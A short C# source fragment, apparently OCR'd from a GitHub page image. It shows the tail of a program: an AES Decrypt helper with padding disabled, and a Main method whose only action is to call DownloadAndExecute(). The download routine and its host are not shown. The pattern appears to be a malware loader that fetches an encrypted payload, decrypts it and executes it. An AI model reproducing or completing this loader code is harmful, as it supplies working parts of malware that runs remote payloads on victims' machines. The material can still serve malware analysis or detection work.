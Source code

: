 ```csharp

        private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }

        public static void Main(String[] args)
        {
            DownloadAndExecute();
        }
    }
}
```
